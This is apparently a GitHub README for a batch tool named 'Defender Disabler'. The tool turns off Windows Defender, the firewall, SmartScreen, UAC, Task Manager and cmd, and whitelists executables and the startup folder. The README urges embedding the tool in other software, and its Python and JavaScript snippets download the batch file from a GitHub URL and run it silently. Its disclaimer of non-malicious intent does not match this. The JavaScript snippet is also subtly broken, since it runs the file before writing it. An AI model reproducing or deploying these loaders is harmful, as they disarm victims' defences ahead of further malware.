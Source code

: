 <h1 align="center">
  Defender Disabler ➰
</h1>

<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>



```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + Loads More!
```


---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
  
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/ClientLoader/Remove.Defender/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/ClientLoader/Remove.Defender/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```



## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improved, more user friendly and has more features.


  <br>

<p align="center">
  By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions
  This project belongs to Rdimo, I uploaded it for redemption because his account is not working. If you want bigger credits, please dm.
<br>
  <a href=#top>Back to Top</a>
</p>
